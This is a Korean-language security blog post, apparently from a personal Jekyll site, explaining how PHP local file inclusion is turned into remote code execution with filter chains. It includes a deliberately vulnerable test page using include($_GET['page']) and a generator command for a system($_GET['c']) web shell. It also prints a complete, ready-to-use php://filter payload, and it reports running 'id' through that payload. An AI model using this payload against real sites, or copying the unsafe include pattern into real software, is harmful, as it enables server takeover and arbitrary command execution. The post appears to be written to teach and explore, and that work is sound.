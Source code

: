 ```yaml
---
title: '[Tip] Local file inclusion to RCE using PHP Filters'
author: hoppi
date: 2023-02-17 18:27:00 + 0000
categories: [Tip]
tags: [php, lfi, lfi2rce]
---
```


예전에 유튜브로 [핵더박스 롸업](https://www.youtube.com/watch?v=yW_lxWB1Yd0&t=2430s)을 보다가 발견한 아주 신기한 것을 발견해서 설명하고자 합니다. 제목에서도 알 수 있듯이 LFI를 RCE로 바꿔버리는 엄청난 방법인데 무려 어떤 파일의 생성이나 그 파일에 코드를 쓸 필요가 없습니다. 이 페이로드를 쓰게되면 literal(?)한 문자열, php 웹쉘 코드를 생성할 수 있습니다. 그렇게되면 `include()`의 특성상 이 php 코드를 실행할 수 있게되겠죠.  

간단하게 테스트 페이지를 통해서 해봅시다. (맥북에서 하려고하니 나중에 `Unable to create filter (convert.iconv.UTF8.UTF7)` 이런 오류가 뜨는데 맥에서는 해당 `convert`를 지원하지 않는 것 같았습니다. 그러므로 VM을 이용하여 리눅스에서 올리는 편이 좋을 것 같습니다. 저는 구름ide를 이용했습니다)  
```php
<h2>Test Page</h2>
<p>include: </p>
<?php include($_GET['page']); ?>
```
{: file='index.php'}
<br/>

```php
<p>Included Page</p>
<?php echo "hi i'm hoppi"; ?>
```
{: file='index.php'}
<br/>

```zsh
php -S 127.0.0.1:4370
```
<br>

이런상황에서 보통 아래처럼 `php wrapper`를 통한 LFI를 하여 소스코드 유출을 할 수가 있죠.  
![wrapper](../../../assets/img/2023-02-17/wrapper.png){: w="700" h="350" }  
<br/>

하지만 [lfi2rce](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)를 이용하면 더 나아가 명령어를 실행할 수 있어집니다.
이 스크립트를 다운받고 아래 명령어를 통해서 웹쉘을 가능하게 하는 페이로드를 생성합니다.  
```zsh
python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]);?>'
```
<br/>

그러면 아래 사진과 같이 매우 긴 페이로드가 생성됩니다.
![payload](../../../assets/img/2023-02-17/payload.png){: w="700" h="350" }  
<br/>

```plaintext
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
{: file='created payload'}
<br/>

참고로 페이로드 마지막에 넣는 `php://temp`는 정상적으로 실행은 하지만 아무것도 출력하지 않습니다. 한 가지 트릭인 셈이죠. `temp`으로 시작하기만 한다면 `temp1231231`이든 `tempasdasdasd`이든 정상적으로 실행이 됩니다.  
![temp](../../../assets/img/2023-02-17/temp.png){: w="700" h="350" }  
<br/>

생성된 페이로드와 `id`명령어를 넣었더니 정상적으로 RCE가 된 모습을 볼 수 있습니다. 정말 신기하죠???
![rce](../../../assets/img/2023-02-17/rce.png){: w="700" h="350" }  
<br/>

더욱더 자세한 설명은 레퍼런스를 통해서 확인해 볼 수 있습니다.  
<br/>

# Reference
***
- [https://www.youtube.com/watch?v=TnLELBtmZ24](https://www.youtube.com/watch?v=TnLELBtmZ24)
- [https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
- [https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)



